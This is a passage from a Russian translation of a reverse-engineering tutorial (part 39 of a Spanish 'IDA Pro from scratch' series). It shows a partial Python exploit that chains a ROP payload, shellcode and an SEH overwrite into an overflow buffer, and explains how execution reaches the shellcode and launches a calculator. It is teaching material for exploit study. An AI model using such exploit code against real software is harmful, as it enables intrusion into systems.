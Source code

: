 ```python

raw_input()

rop = create_rop_chain()

next = "\x41\x41\x41\x41"

seh = struct.pack("<L", 0x7802d415)

data = (0xec) * "A" + rop + shellcode

fruta = data + ((844-len(data)) * "A" )+ next + seh + 6000 * "A" + "\n"

print stdin

print "Escribe: " + fruta

stdin.write(fruta)

print stdout.read(40)
```

Мы видим, что скрипт использует тот же **ROP** что и раньше, и добавляет тот же шеллкод для **MYPEPE** и он работает.

![](.gitbook/assets/39/20.png)

Мы видим, что когда я прихожу в инструкцию **RET**, **ROP** остается в стеке с самого начала, чтобы продолжить исполнять **ROP** и выполнять шеллкод.

![](.gitbook/assets/39/21.png)

Теперь у нас запускается калькулятор.

* * *

Автор оригинального текста — Рикардо Нарваха.

Перевод и адаптация на английский  язык — IvinsonCLS.

Перевод и адаптация на русский язык — Яша Яшечкин.

Перевод специально для форума системного и низкоуровневого программирования - WASM.IN

08.04.2018

Источник:

[**http://ricardonarvaja.info/WEB/INTRODUCCION%20AL%20REVERSING%20CON%20IDA%20PRO%20DESDE%20CERO/39-INTRODUCCION%20AL%20REVERSING%20CON%20IDA%20PRO%20DESDE%20CERO%20PARTE%2039.7z**](http://ricardonarvaja.info/WEB/INTRODUCCION%20AL%20REVERSING%20CON%20IDA%20PRO%20DESDE%20CERO/39-INTRODUCCION%20AL%20REVERSING%20CON%20IDA%20PRO%20DESDE%20CERO%20PARTE%2039.7z)
